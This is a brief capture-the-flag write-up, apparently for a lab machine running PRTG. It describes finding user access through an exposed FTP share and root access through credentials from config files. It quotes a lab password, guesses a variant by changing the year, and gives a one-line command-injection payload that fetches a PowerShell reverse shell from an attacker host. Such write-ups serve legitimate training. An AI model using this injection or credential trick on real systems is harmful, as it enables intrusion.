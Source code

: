 ![logo](./logo.png)

10.10.10.152

# USER

FTP server exposes the entire machines directory. This gives us the ```user.txt```

# ROOT

Looking in the PRTG config files I found some credentials

```
prtgadmin
PrTg@dmin2018
```

The login did not work initially but changing the date to:

```
PrTg@dmin2019
```

Looking at the demo scripts for notifications it looks like the arguments are not sanitised
https://www.codewatch.org/blog/?p=453

Reverse shell
```
test.txt; IEX (New-Object Net.WebClient).DownloadString("http://10.10.14.55:8000/shell.ps1")
```

Getting the reverse shell gives us administrator and the flag